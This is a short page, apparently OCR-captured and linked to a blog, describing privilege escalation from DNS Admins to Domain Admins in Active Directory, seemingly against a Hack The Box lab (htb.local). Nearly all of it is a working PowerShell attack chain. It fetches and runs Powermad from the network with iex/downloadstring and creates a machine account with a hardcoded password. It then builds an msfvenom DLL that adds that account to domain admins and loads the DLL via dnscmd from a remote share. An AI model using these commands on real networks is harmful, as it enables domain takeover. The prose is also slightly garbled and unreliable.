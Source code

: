 

https://cube0x0.github.io/Pocing-Beyond-DA/

##### Domain Admins

Members of the DNS Admins group have access to network DNS information. The default permissions are as follows: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.

We can load a DLL and then restart the DNS service. However, we don't have the privilege to restart the DNS service remote or locally

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')
New-MachineAccount -MachineAccount cube -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Domain htb.local -DomainController dc.htb.local
msfvenom -p windows/x64/exec cmd='net group "domain admins" cube$ /add /domain' -f dll > dns.dll
dnscmd.exe dc.htb.local /config /serverlevelplugindll \\10.0.0.7\tmp\dns.dll
```
